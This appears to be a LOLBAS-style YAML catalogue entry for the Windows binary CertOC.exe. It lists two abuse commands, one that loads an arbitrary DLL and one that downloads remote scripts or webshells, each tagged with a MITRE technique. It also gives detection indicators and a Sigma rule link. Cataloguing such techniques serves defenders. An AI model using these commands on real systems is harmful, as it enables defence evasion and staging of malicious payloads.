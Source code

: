 ```yaml
---
Name: CertOC.exe
Description: Used for installing certificates
Author: 'Ensar Samil'
Created: 2021-10-07
Commands:
  - Command: certoc.exe -LoadDLL {PATH_ABSOLUTE:.dll}
    Description: Loads the target DLL file
    Usecase: Execute code within DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows Server 2022
    Tags:
      - Execute: DLL
  - Command: certoc.exe -GetCACAPS {REMOTEURL:.ps1}
    Description: Downloads text formatted files
    Usecase: Download scripts, webshells etc.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\certoc.exe
  - Path: c:\windows\syswow64\certoc.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certoc_load_dll.yml
  - IOC: Process creation with given parameter
  - IOC: Unsigned DLL load via certoc.exe
  - IOC: Network connection via certoc.exe
Resources:
  - Link: https://twitter.com/sblmsrsn/status/1445758411803480072?s=20
  - Link: https://twitter.com/sblmsrsn/status/1452941226198671363?s=20
Acknowledgement:
  - Person: Ensar Samil
    Handle: '@sblmsrsn'
---
```

